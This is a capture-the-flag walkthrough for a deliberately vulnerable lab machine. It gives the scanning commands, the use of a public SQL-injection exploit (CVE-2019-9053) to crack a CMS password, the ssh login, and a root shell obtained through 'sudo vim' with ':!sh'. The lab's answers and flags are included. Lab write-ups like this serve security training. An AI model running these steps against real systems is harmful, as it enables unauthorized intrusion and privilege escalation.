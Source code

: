 # Simple CTF Writeup

How many services are running under port 1000?
```
nmap --script=vuln -sV -A <target ip>
```
> 2

What is running on the higher port?
> ssh

What's the CVE you're using against the application?
```
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 250
```
We see a `/simple` which leads us to a CMS Made Simple vulnerability. Search this up online and we see [this](https://www.exploit-db.com/exploits/46635).
> CVE-2019-9053

To what kind of vulnerability is the application vulnerable?
> SQLi

What's the password?

Use the exploit from Exploit-DB with a few minor changes. I had to delete the `termcolor` module and fix a few print statements.
```
python2 exploit.py -u http://<target-ip>/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```
```
Output:
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
> secret

Where can you login with the details obtained?
> ssh

What's the user flag?
```
ssh mitch@<target_ip> -p2222
cat user.txt
```
> G00d j0b, keep up!

Is there any other user in the home directory? What's its name?
```
cd /home
```
> sunbath

What can you leverage to spawn a privileged shell?
```
sudo -l
```
```
Output:
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```
> vim

What's the root flag?
```
sudo vim
:!sh
cd /root
cat root.txt
```
> W3ll d0n3. You made it!

Challenges that I had:
1. I forgot to use `gobuster`, so I spent quite a bit of time testing out all the CVEs from my `nmap` result.
2. I had trouble with `ssh`ing into the mitch user account because I forgot to use ports.

For all of the above challenges, I looked up writeups for them.
